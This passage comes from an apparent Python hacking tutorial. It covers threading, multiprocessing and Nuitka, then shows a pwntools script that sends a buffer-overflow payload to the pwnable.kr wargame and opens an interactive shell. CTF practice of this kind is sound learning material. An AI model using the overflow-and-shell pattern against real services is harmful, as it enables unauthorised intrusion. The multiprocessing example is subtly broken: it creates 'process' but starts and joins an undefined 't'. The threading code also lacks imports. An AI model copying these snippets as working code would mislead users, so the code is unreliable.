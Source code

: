 def do_some_hack():
    print("hacking..")
    return 

for i in range(10): 
    t = threading.Thread(target=do_some_hack)
    t.start()
</pre>

### Is there other ways to speed up python?
[multiprocessing](https://docs.python.org/2/library/multiprocessing.html) - multiprocessing is a package that supports spawning processes using an API similar to the threading module.

With multiprocessing (same example as above):
<pre>
from multiprocessing import Process

def do_some_hack():
    print("hacking..")
    return 

for i in range(10): 
    process = Process(target=do_some_hack)
    t.start()
    t.join()
</pre>

Another way of speeding up Python is to use Nutika. Nutika compiles Python to C/C++. 

### Pwntools
"pwn" means to compromise or control another computer, web site, gateway device, or application. 
It is synonymous with one of the definitions of hacking or cracking. 

Python has a helpful library for this purpose, named pwntools. It is a framework made for CTFs. 

Example of usage of pwntools:
<pre>
from pwn import *  

host = "pwnable.kr"
port = 9000
payload = "AAAA" * 13 + p32(0xcafebabe)

target = remote(host, port)  
target.sendline(payload) 
target.interactive()
</pre>
* p32() - converts 4-bytes (32-bits) integer in a little endian format. 
* sendline(payload) - send the payload ending with a new line.
* target.interactive() - start interacting with the target (e.g. send shell commands).

<a name="modules"></a>
## Summary of all Python modules/packages you should know 
> Note that is a brief summary meant as a repetition, and examples are not exhaustive. You can read more in the earlier chapters
> or visit the links.  
